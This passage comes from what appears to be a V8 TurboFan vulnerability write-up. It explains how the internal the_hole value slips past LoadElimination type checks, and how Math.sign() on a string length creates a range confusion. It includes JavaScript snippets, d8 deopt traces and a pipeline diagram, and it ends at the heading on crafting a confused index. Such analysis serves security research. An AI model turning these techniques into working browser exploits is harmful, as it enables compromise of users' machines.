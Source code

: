 ```javascript
print(test_array(true)); // prints 3, but deoptimizes
```

Running with `d8 --allow-natives-syntax --trace-deopt`:

- `test_hole(true)`: No deopt output - TypeGuard was created then eliminated
- `test_array(true)`: `[bailout (reason: not a String)]` - CheckString remained

Both `(bit 33) & (bits 5|14) = 0` and `(bit 25) & (bits 5|14) = 0`, but only `the_hole` bypasses checks because it's **outside the type hierarchy** that LoadElimination checks with `.Is(NonInternal)`.

### Step 3: Range Confusion with `Math.sign()`

We use `Math.sign()` to create divergent behavior between inferred and actual ranges:

```javascript
let len = o.maybe_hole.length; // infer: (0, 535870888), actual: (-524289, 535870888)
let sign = Math.sign(len); // infer: (0, 1),         actual: (-1, 1)
```

During training, `len` is always positive, so `Math.sign(len)` is always 1. TurboFan's [Typer phase](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/turbofan-typer.cc;l=2425;drc=609a85c2a1bd77d6f6905369f4bc4fcf34c5db09) infers `sign ∈ (0, 1)`. But when `the_hole` is passed, `sign = -1`, which is outside the inferred range!

```
TurboFan Pipeline with Type Confusion:

Step 1: Type Feedback (Ignition)
+-----------------------------------------------+
|     o.maybe_hole = "string"                   |
|  -> o.maybe_hole is String                    |
|  -> length in [0, 535870888]                  |
|  -> Math.sign(length) = 1                     |
+------------------+----------------------------+
                   |
                   v
Step 2: Optimization (TurboFan Typer)
+-----------------------------------------------+
| Node: LoadField(o, "maybe_hole") -> String    |
| Node: StringLength              -> Range(0+)  |
| Node: Math.sign(length)         -> Range(1)   |
+------------------+----------------------------+
                   |
                   v
Step 3: Exploitation
+-----------------------------------------------+
| o.maybe_hole = the_hole                       |
|  -> the_hole.length = -524289                 |
|  -> Math.sign(-524289) = -1                   |
+-----------------------------------------------+
```

### Step 4: Crafting a Confused Index
